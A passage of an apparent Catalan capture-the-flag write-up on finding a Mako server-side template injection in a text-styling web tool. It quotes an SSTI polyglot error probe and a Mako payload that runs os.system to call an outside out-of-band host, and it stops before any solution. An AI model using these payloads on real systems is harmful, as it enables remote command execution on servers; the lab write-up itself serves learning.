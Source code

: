     - `change_font()`: Transforma el text d'entrada en les 4 versions diferents
        
    - `generate_render()`: Genera el codi HTML per mostrar els resultats en una taula
        
    - `spookify()`: Funció principal que coordina tot el procés

Al principi de tot també s'importa una llibreria anomenada Template de mako.template i també la funció generate_render retorna Template, per tant sembla que per aquí va la cosa.

Després de força estona i no trobar res, provarem anant al repo que tinc guardat, el PayloadsAllTheThings a veure si trobem algun payload que ens pugui ser útil per template i el provarem d'injectar, ja que no ha funcionat la injecció SQL ni la recerca feta als directoris i fitxers:

![image](https://github.com/user-attachments/assets/0df19a93-a4ad-4290-a07e-af6bb83c9afc)


I després de rebuscar una mica veiem que hem d'anar al repo de Server Side Template Injection on hi ha una imatge i hi apareix Mako:

![image](https://github.com/user-attachments/assets/adbabe07-0b34-47be-8d4e-72df4963cb39)


La pista està en el missatge següent del repo:

In most cases, this polyglot payload will trigger an error in presence of a SSTI vulnerability:

```
${{<%[%'"}}%\.
```

I provem la comanda a l'eina web i efectivament dona error, per tant hi ha en principi una vulnerabilitat de SSTI:

![image](https://github.com/user-attachments/assets/af483d88-946a-4e47-95fd-bdf2639b3815)


![image](https://github.com/user-attachments/assets/a22f60f8-2c3c-484a-9c14-bb7edfadc500)


I hi ha una URL al repo que és aquesta: https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756

![image](https://github.com/user-attachments/assets/2b9d2602-77bd-4345-ad61-f0818afda45e)


Que és la que agafarem per trobar una injecció que ens serveixi per el nostre cas que és un template Mako. Un cop a la pàgina trobem la següent:

![image](https://github.com/user-attachments/assets/863ed305-5fa6-409a-a6e4-5a10f76db929)


``${self.__init__.__globals__['util'].os.system('nslookup oastify.com')}``


Ara es tracta d'adatparla per llegir la flag del directori arrel. No m'ha funcionat, he vist que hi ha més payloads al repo per Mako, aquí:

![image](https://github.com/user-attachments/assets/a7dc9760-7252-461f-a84b-a6de63e21a3b)

